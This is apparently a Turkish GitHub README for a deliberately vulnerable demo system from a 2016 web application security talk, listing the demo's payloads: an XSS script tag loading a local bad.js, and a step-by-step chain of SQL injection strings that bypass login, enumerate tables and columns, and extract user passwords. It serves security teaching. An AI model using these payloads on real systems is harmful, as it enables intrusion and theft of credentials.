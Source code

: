 # ab16WebUygulamaGuvenligi
Akademik Bilişim 2016 kapsamındaki Web Uygulama Güvenliği sunumunda demo yaptığım sistem.

Sunum : http://www.slideshare.net/Om3rCitak/web-uygulama-gvenlii-akademik-biliim-2016-57851287


## Demoda Kullanılan Payloadlar

#### XSS

```sh
<script src='http://127.0.0.1/demo_xss_sql/hack/bad.js'></script>
``` 

#### Sql Injection
> ' or true # 

> ' and 1=1

> ' and 1=2

> ' order by 3

> -{id} union select 1,2,3

> -{id} union select 1,database(),3

> -{id} union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='bitcs'

> -{id} union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='bitcs' and table_name='users'

> -{id} union select 1,password,3 from users where id=1

> -{id} union select 1,password,3 from users where username='omercitak'